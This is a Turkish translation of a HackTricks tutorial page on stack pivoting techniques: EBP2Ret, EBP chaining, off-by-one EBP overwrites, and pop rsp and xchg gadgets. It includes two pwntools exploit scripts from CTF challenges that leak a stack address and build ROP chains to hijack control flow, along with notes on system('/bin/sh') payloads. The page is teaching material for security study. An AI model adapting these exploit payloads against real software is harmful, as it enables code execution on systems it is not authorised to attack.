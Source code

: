 # Stack Pivoting - EBP2Ret - EBP chaining

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Temel Bilgiler

Bu teknik, **Base Pointer (EBP)**'yi manipüle etme yeteneğinden yararlanarak, EBP kaydının dikkatli kullanımı ve `leave; ret` talimat dizisi aracılığıyla birden fazla işlevin yürütülmesini zincirleme imkanı sağlar.

Hatırlatmak gerekirse, **`leave`** temelde şunu ifade eder:
```
mov               esp, ebp
pop               ebp
ret
```
And as the **EBP stack'te** EIP'den önce olduğu için, yığını kontrol ederek bunu kontrol etmek mümkündür.

### EBP2Ret

Bu teknik, **EBP kaydını değiştirebilirken EIP kaydını doğrudan değiştirme yolunuz yoksa** özellikle faydalıdır. Fonksiyonların çalışmayı bitirdiğinde gösterdiği davranışı kullanır.

Eğer `fvuln`'ın çalışması sırasında, yığında **sahte bir EBP** enjekte etmeyi başarırsanız ve bu EBP, shellcode'unuzun adresinin bulunduğu bir bellek alanına işaret ediyorsa (artı `pop` işlemi için 4 byte ekleyerek), EIP'yi dolaylı olarak kontrol edebilirsiniz. `fvuln` döndüğünde, ESP bu hazırlanmış konuma ayarlanır ve sonraki `pop` işlemi ESP'yi 4 azaltır, **etkili bir şekilde orada saldırgan tarafından saklanan bir adrese işaret eder.**\
**2 adresi bilmeniz gerektiğini unutmayın**: ESP'nin gideceği adres ve ESP'nin işaret ettiği adresi yazmanız gereken yer.

#### Exploit Yapısı

Öncelikle, **rastgele veri/adres yazabileceğiniz bir adresi bilmeniz gerekir**. ESP buraya işaret edecek ve **ilk `ret`'i çalıştıracak**.

Sonra, **rastgele kodu çalıştıracak** `ret` tarafından kullanılan adresi bilmeniz gerekir. Şunları kullanabilirsiniz:

* Geçerli bir [**ONE\_GADGET**](https://github.com/david942j/one\_gadget) adresi.
* **`system()`** adresi, ardından **4 çöp byte** ve `"/bin/sh"` adresi (x86 bit).
* **`jump esp;`** gadget'ının adresi ([**ret2esp**](ret2esp-ret2reg.md)) ardından çalıştırılacak **shellcode**.
* Bazı [**ROP**](rop-return-oriented-programing.md) zinciri.

Kontrollü bellek kısmındaki bu adreslerin önünde **`4` byte** bulunması gerektiğini unutmayın, çünkü **`pop`** kısmı `leave` talimatının gereğidir. Bu 4B'yi, **ikinci sahte EBP** ayarlamak ve yürütmeyi kontrol etmeye devam etmek için kötüye kullanmak mümkündür.

#### Off-By-One Exploit

Bu tekniğin "Off-By-One Exploit" olarak bilinen özel bir varyantı vardır. **EBP'nin en az anlamlı byte'ını yalnızca değiştirebildiğinizde** kullanılır. Böyle bir durumda, **`ret`** ile atlanacak adresi saklayan bellek konumu, EBP ile ilk üç byte'ı paylaşmalıdır, bu da daha kısıtlı koşullarla benzer bir manipülasyona izin verir.

### **EBP Zincirleme**

Bu nedenle, yığında kontrol edilen bir adresi `EBP` girişine ve `EIP`'de `leave; ret` adresini koyarak, **`ESP`'yi yığın üzerinden kontrol edilen `EBP` adresine taşımak mümkündür.**

Artık, **`ESP`** istenen bir adrese işaret ediyor ve yürütülecek bir sonraki talimat bir `RET`. Bunu kötüye kullanmak için, kontrol edilen ESP konumuna şunları yerleştirmek mümkündür:

* **`&(next fake EBP)`** -> `leave` talimatından `pop ebp` nedeniyle yeni EBP'yi yükle
* **`system()`** -> `ret` tarafından çağrılır
* **`&(leave;ret)`** -> sistem sona erdikten sonra çağrılır, ESP'yi sahte EBP'ye taşır ve tekrar başlar
* **`&("/bin/sh")`**-> `system` için parametre

Temelde bu şekilde, programın akışını kontrol etmek için birkaç sahte EBP'yi zincirlemek mümkündür.

Bu, bir [ret2lib](ret2lib/) gibidir, ancak görünür bir faydası olmadan daha karmaşıktır, ancak bazı kenar durumlarında ilginç olabilir.

Ayrıca, bu tekniği bir **stack leak** ile kazanan bir fonksiyonu çağırmak için kullanan bir [**challenge örneği**](https://ir0nstone.gitbook.io/notes/types/stack/stack-pivoting/exploitation/leave) var. Bu, sayfanın son yüklemesidir:
```python
from pwn import *

elf = context.binary = ELF('./vuln')
p = process()

p.recvuntil('to: ')
buffer = int(p.recvline(), 16)
log.success(f'Buffer: {hex(buffer)}')

LEAVE_RET = 0x40117c
POP_RDI = 0x40122b
POP_RSI_R15 = 0x401229

payload = flat(
0x0,               # rbp (could be the address of anoter fake RBP)
POP_RDI,
0xdeadbeef,
POP_RSI_R15,
0xdeadc0de,
0x0,
elf.sym['winner']
)

payload = payload.ljust(96, b'A')     # pad to 96 (just get to RBP)

payload += flat(
buffer,         # Load leak address in RBP
LEAVE_RET       # Use leave ro move RSP to the user ROP chain and ret to execute it
)

pause()
p.sendline(payload)
print(p.recvline())
```
## EBP işe yaramaz

[**bu yazıda açıklandığı gibi**](https://github.com/florianhofhammer/stack-buffer-overflow-internship/blob/master/NOTES.md#off-by-one-1), eğer bir ikili dosya bazı optimizasyonlarla derlenmişse, **EBP asla ESP'yi kontrol etmez**, bu nedenle EBP'yi kontrol ederek çalışan herhangi bir exploit temelde başarısız olur çünkü gerçek bir etkisi yoktur.\
Bu, **prolog ve epilog değiştiği** için, eğer ikili dosya optimize edilmişse.

* **Optimize edilmemiş:**
```bash
push   %ebp         # save ebp
mov    %esp,%ebp    # set new ebp
sub    $0x100,%esp  # increase stack size
.
.
.
leave               # restore ebp (leave == mov %ebp, %esp; pop %ebp)
ret                 # return
```
* **Optimize edilmiş:**
```bash
push   %ebx         # save ebx
sub    $0x100,%esp  # increase stack size
.
.
.
add    $0x10c,%esp  # reduce stack size
pop    %ebx         # restore ebx
ret                 # return
```
## RSP'yi Kontrol Etmenin Diğer Yolları

### **`pop rsp`** gadget

[**Bu sayfada**](https://ir0nstone.gitbook.io/notes/types/stack/stack-pivoting/exploitation/pop-rsp) bu tekniği kullanan bir örnek bulabilirsiniz. Bu zorluk için 2 belirli argümanla bir fonksiyon çağrılması gerekiyordu ve bir **`pop rsp` gadget** vardı ve **stack'ten bir leak** vardı:
```python
# Code from https://ir0nstone.gitbook.io/notes/types/stack/stack-pivoting/exploitation/pop-rsp
# This version has added comments

from pwn import *

elf = context.binary = ELF('./vuln')
p = process()

p.recvuntil('to: ')
buffer = int(p.recvline(), 16) # Leak from the stack indicating where is the input of the user
log.success(f'Buffer: {hex(buffer)}')

POP_CHAIN = 0x401225       # pop all of: RSP, R13, R14, R15, ret
POP_RDI = 0x40122b
POP_RSI_R15 = 0x401229     # pop RSI and R15

# The payload starts
payload = flat(
0,                 # r13
0,                 # r14
0,                 # r15
POP_RDI,
0xdeadbeef,
POP_RSI_R15,
0xdeadc0de,
0x0,               # r15
elf.sym['winner']
)

payload = payload.ljust(104, b'A')     # pad to 104

# Start popping RSP, this moves the stack to the leaked address and
# continues the ROP chain in the prepared payload
payload += flat(
POP_CHAIN,
buffer             # rsp
)

pause()
p.sendline(payload)
print(p.recvline())
```
### xchg \<reg>, rsp gadget
```
pop <reg>                <=== return pointer
<reg value>
xchg <reg>, rsp
```
## Referanslar

* [https://bananamafia.dev/post/binary-rop-stackpivot/](https://bananamafia.dev/post/binary-rop-stackpivot/)
* [https://ir0nstone.gitbook.io/notes/types/stack/stack-pivoting](https://ir0nstone.gitbook.io/notes/types/stack/stack-pivoting)

{% hint style="success" %}
AWS Hacking öğrenin ve pratik yapın:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking öğrenin ve pratik yapın: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Takım Uzmanı (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'ı takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

